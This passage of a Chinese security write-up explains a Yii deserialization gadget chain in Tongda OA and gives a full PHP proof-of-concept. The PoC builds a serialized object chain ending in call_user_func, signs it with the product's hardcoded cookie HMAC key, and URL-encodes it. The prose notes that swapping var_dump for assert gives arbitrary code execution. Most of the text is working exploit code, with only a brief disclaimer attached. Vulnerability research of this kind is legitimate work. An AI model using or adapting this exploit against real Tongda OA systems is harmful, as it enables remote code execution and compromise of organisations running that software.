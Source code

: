 这里可以看到有call_user_func的调用，get的参数$key的值是由getTypeCategory中的$this-&gt;type提供的，这个是完全可控的，而buildKey对于全是字母数字的长度32以下的则不做任何修改。getValue中的$this-&gt;_cache也是完全可控的，所以这也就说明get函数中的$value可控，并且在call_user_func中的$this-&gt;serializer也是在反序列化的时候完全可控，这样这里的call_user_func就导致了任意代码执行。由于目标是通达OA，php版本为php5，这里用$this-&gt;serializer赋值为assert就可以类似eval的进行任意代码执行。

##### poc

下面是完整的poc

```
&lt;?php
//仅用于安全研究与授权测试，使用此漏洞造成的任何攻击影响均与本文作者无关。
namespace yii\db {
    class ColumnSchemaBuilder {
        protected $type = 'x';
        public $categoryMap;

        function __construct($categoryMap) {
            $this-&gt;categoryMap = $categoryMap;
        }
    }

    class Connection {
        public $pdo = 1;

        function __construct($dsn) {
            $this-&gt;dsn = $dsn;
        }
    }

    class BatchQueryResult {
        private $_dataReader;

        function __construct($dataReader) {
            $this-&gt;_dataReader = $dataReader;
        }
    }
}

namespace yii\caching {
    class ArrayCache {
        public $serializer;
        private $_cache;

        function __construct($function, $parameter) {
            $this-&gt;serializer = [1 =&gt; $function];
            $this-&gt;_cache = ['x' =&gt; [$parameter, 0]];
        }
    }
}
namespace{
    $function = 'var_dump';
    $parameter = 123;

    $cache = new \yii\caching\ArrayCache($function, $parameter);
    $csb = new \yii\db\ColumnSchemaBuilder($cache);
    $conn = new \yii\db\Connection($csb);
    $query = new \yii\db\BatchQueryResult($conn);
    $data=(serialize($query));
    $data=hash_hmac('sha256', $data, 'tdide2').$data; //通达OA的cookie反序列化校验
    echo urlencode($data);
}

```

